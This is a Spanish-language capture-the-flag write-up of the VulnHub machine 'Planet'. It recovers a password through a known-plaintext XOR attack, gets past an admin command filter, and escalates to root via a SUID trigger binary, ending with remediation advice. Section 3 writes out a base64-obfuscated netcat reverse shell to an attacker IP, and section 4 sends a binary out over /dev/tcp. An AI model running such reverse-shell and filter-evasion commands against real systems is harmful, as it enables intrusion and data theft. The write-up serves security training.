# Planet | Informe Técnico de Auditoría (Criptoanálisis XOR + binario SUID con puerta trasera)

Informe de la prueba de intrusión Boot2Root ejecutada sobre la máquina **Planet**, un servidor Fedora que aloja una aplicación web personalizada de mensajería cifrada ("Earth Secure Messaging"). El acceso inicial se obtuvo recuperando la contraseña del panel de administración mediante un **ataque de texto plano conocido** contra un cifrado XOR débil, y evadiendo después el filtro de comandos de dicho panel. La escalada a `root` se logró mediante **ingeniería inversa** de un binario SUID personalizado que concedía privilegios bajo una condición oculta.

&nbsp;

---

&nbsp;

## Ficha técnica

| Campo | Detalle |
| :-- | :-- |
| Nombre de la máquina | Planet |
| Plataforma | VulnHub |
| Sistema operativo | Linux (Fedora) |
| Servicio objetivo | Aplicación web "Earth Secure Messaging" sobre Apache 2.4.51 + mod_wsgi + Python 3.9 |
| Dirección IP del objetivo | 10.0.2.6 |
| Puertos expuestos | 22/tcp (SSH), 80/tcp (HTTP), 443/tcp (HTTPS) |
| Nombres de host virtuales | `earth.local`, `terratest.earth.local` |
| Vulnerabilidad principal | Cifrado XOR débil (ataque de texto plano conocido) y filtro de comandos insuficiente en el panel admin |
| Vector de escalada | Binario SUID personalizado (`reset_root`) con lógica de activación oculta |
| Objetivo del ejercicio | Compromiso total como `root` |

&nbsp;

---

&nbsp;

## Resumen de la cadena de ataque

| Fase | Técnica | Resultado |
| :-- | :-- | :-- |
| Reconocimiento | `nmap` + identificación de hosts virtuales vía certificado SSL | Identificación de `earth.local` y `terratest.earth.local` |
| Enumeración | `gobuster` + `robots.txt` | Panel `/admin/` y notas internas de pruebas expuestas |
| Criptoanálisis | Ataque de texto plano conocido contra el cifrado XOR (CyberChef) | Contraseña del panel de administración recuperada |
| Explotación | Evasión del filtro de comandos del panel admin | Shell remota como usuario de servicio |
| Post-explotación | Ingeniería inversa de un binario SUID con `ltrace` | Mecanismo oculto de reseteo de la contraseña de `root` identificado |
| Escalada de privilegios | Activación del mecanismo oculto del binario | Contraseña de `root` conocida, acceso total |

&nbsp;

---

&nbsp;

## 1. Reconocimiento y enumeración de servicios

### 1.1. Escaneo de puertos y servicios

Se ejecutó un escaneo de versiones y scripts por defecto contra el objetivo:

```bash
nmap -sCV 10.0.2.6
```

El resultado mostró tres servicios activos: `SSH` (OpenSSH 8.6), `HTTP` (Apache 2.4.51 sobre Fedora, con mod_wsgi y Python 3.9) y el mismo servicio sobre `HTTPS`. El certificado TLS reveló dos nombres de host virtuales: `earth.local` y `terratest.earth.local`, que fue necesario añadir a `/etc/hosts` para continuar la enumeración por nombre en lugar de por dirección IP.



&nbsp;

### 1.2. Enumeración de rutas en los hosts virtuales

Se enumeraron directorios y archivos sobre ambos nombres de host:

```bash
gobuster dir -u https://earth.local -w /usr/share/wordlists/dirb/common.txt -k
gobuster dir -u https://terratest.earth.local -w /usr/share/wordlists/dirb/common.txt -k
```

En `earth.local` se localizó un panel `/admin/`; en `terratest.earth.local` se identificaron rutas adicionales de menor relevancia directa.



&nbsp;

### 1.3. Archivos de prueba expuestos

La revisión de `robots.txt` en `terratest.earth.local` reveló una entrada fuera del listado habitual de extensiones bloqueadas:

```bash
curl -k https://terratest.earth.local/robots.txt
```



Esa ruta llevó a un fichero de notas internas del equipo de desarrollo, que reveló el uso de **cifrado XOR**, el nombre de usuario `terra` para el panel admin y la existencia de un fichero de datos de prueba:

```bash
curl -k https://terratest.earth.local/testingnotes.txt
```



El fichero de datos de prueba mencionado resultó ser un texto en claro, útil como base para un ataque de texto plano conocido contra el cifrado XOR:

```bash
curl -k https://terratest.earth.local/testdata.txt
```



&nbsp;

---

&nbsp;

## 2. Criptoanálisis y acceso al panel de administración

### 2.1. Página principal y mensajes cifrados

La página principal de `earth.local` mostró un formulario de envío de mensajes cifrados y un listado de mensajes previos en formato hexadecimal, cifrados presumiblemente con el mismo esquema XOR descrito en las notas internas.

```bash
curl -k https://earth.local/
```



&nbsp;

### 2.2. Ataque de texto plano conocido contra el cifrado XOR

Utilizando el texto en claro de `testdata.txt` como clave de referencia contra uno de los mensajes cifrados capturados, se realizó un ataque de texto plano conocido con CyberChef (`From Hex` + `XOR`). El resultado reveló un patrón repetido en claro:

```
earthclimatechangebad4human
```



&nbsp;

### 2.3. Acceso al panel de administración

Con el usuario `terra` (obtenido de las notas internas) y la contraseña recuperada en el paso anterior, se accedió al panel de administración:

```
https://earth.local/admin/login
```



&nbsp;

| Credencial | Valor | Origen |
| :-- | :-- | :-- |
| Usuario del panel admin | `terra` | Notas internas (`testingnotes.txt`) |
| Contraseña del panel admin | `earthclimatechangebad4human` | Ataque de texto plano conocido contra el cifrado XOR |

&nbsp;

---

&nbsp;

## 3. Explotación — evasión del filtro de comandos

El panel de administración incluía una herramienta de ejecución de comandos ("Admin Command Tool") con una restricción explícita: *"Remote connections are forbidden"*. Dicha restricción se evadió codificando el payload en base64, de forma que el filtro no reconociera directamente la invocación de una herramienta de red.

### 3.1. Codificación del payload

```bash
echo -n 'nc -e /bin/bash 10.0.2.15 4444' | base64
```



&nbsp;

### 3.2. Ejecución a través del panel de administración

El payload codificado se decodificó y ejecutó directamente desde el campo de comando del panel:

```
... | base64 -d | bash
```



&nbsp;

### 3.3. Obtención de shell reversa

Con un listener preparado en el equipo atacante, la ejecución del payload devolvió una conexión interactiva en el contexto del usuario de servicio del servidor web.

```bash
nc -lvnp 4444
```



&nbsp;

---

&nbsp;

## 4. Post-explotación — identificación de un binario SUID

### 4.1. Enumeración de binarios con bit SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

Entre los binarios habituales del sistema destacó uno no estándar: `/usr/bin/reset_root`, ajeno a una instalación por defecto de Fedora.



&nbsp;

### 4.2. Exfiltración del binario para su análisis

Dado que la restricción de conexiones remotas también aplicaba a este canal, se repitió la técnica de evasión, esta vez empleando una redirección de shell (`/dev/tcp`) en lugar de una herramienta de red explícita, para extraer el binario y analizarlo localmente:

```bash
nc -lvnp 3333 > reset_root
```



El comando de lectura se ejecutó nuevamente a través del panel de administración:



```bash
cat /usr/bin/reset_root > /dev/tcp/10.0.2.15/3333
```



La transferencia se completó correctamente, dejando una copia local del binario para su análisis.



&nbsp;

### 4.3. Ingeniería inversa con ltrace

El análisis dinámico del binario reveló su lógica interna: comprueba la existencia de tres ficheros concretos (dos en `/dev/shm` y uno en `/tmp`, con nombres aleatorios fijos) antes de proceder a restablecer la contraseña de `root`.

```bash
ltrace ./reset_root
```



&nbsp;

---

&nbsp;

## 5. Escalada de privilegios

### 5.1. Creación de los ficheros disparadores

De vuelta en la shell obtenida sobre el objetivo, se crearon los tres ficheros identificados en el análisis anterior:

```bash
touch /dev/shm/kHgTFI5G /dev/shm/Zw7bV9U5 /tmp/kcM0Wewe
```



&nbsp;

### 5.2. Ejecución del binario y obtención de la contraseña de root

Con los ficheros disparadores presentes, la ejecución del binario reveló y aplicó una nueva contraseña para la cuenta `root`:

```bash
./reset_root
```

```
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
```



&nbsp;

---

&nbsp;

## 6. Evidencia final

Con la contraseña de `root` conocida, se accedió a dicha cuenta y se confirmó el compromiso total del sistema mediante la lectura de la bandera final:

```bash
su root
cd /root
cat root_flag.txt
```

```
[root_flag_b0da9554d29db2117b02aa8b66ec492e]
```



&nbsp;

---

&nbsp;

## 7. Resumen de banderas y credenciales obtenidas

| Elemento | Valor / ubicación | Método de obtención |
| :-- | :-- | :-- |
| Usuario panel admin | `terra` | Notas internas (`testingnotes.txt`) |
| Contraseña panel admin | `earthclimatechangebad4human` | Ataque de texto plano conocido contra el cifrado XOR |
| Contraseña de `root` | `Earth` | Activación del binario `reset_root` mediante ficheros disparadores |
| Bandera final | `/root/root_flag.txt` | Lectura tras la escalada de privilegios a `root` |

&nbsp;

---

&nbsp;

## 8. Causa raíz y remediación

| Hallazgo | Causa raíz | Recomendación |
| :-- | :-- | :-- |
| Cifrado XOR con clave corta y reutilizada | Uso de un algoritmo de cifrado inadecuado para datos sensibles | Sustituir XOR por un esquema de cifrado autenticado (p. ej. AES-GCM) con claves únicas y de longitud adecuada |
| Notas internas y datos de prueba accesibles públicamente | Ficheros de desarrollo expuestos y referenciados en `robots.txt` | Retirar ficheros de prueba y documentación interna del entorno de producción; no depender de `robots.txt` como control de acceso |
| Filtro de comandos basado en palabras clave en el panel admin | Validación de entrada insuficiente, evadible mediante codificación y redirecciones de shell | Eliminar la ejecución arbitraria de comandos o sustituirla por una lista blanca estricta de acciones predefinidas |
| Binario SUID personalizado con lógica de activación oculta | Mecanismo de "puerta trasera" basado en la existencia de ficheros predecibles | Eliminar binarios SUID personalizados innecesarios y auditar periódicamente con `find -perm -4000` |

&nbsp;

---

&nbsp;

## 9. Lecciones aprendidas

- El cifrado XOR con una clave corta es trivialmente vulnerable a un ataque de texto plano conocido cuando un atacante puede acceder tanto al texto plano como al texto cifrado correspondiente.
- Los ficheros de notas internas o de pruebas, aunque no estén enlazados directamente, pueden descubrirse a través de mecanismos como `robots.txt`.
- Un filtro de palabras clave para restringir comandos es insuficiente: la codificación en base64 y las redirecciones de shell (`/dev/tcp`) evaden fácilmente este tipo de controles.
- Un binario SUID personalizado con una condición de activación oculta representa un riesgo crítico si su comportamiento puede inferirse mediante ingeniería inversa dinámica (`ltrace`, `strace`).

&nbsp;

---

&nbsp;

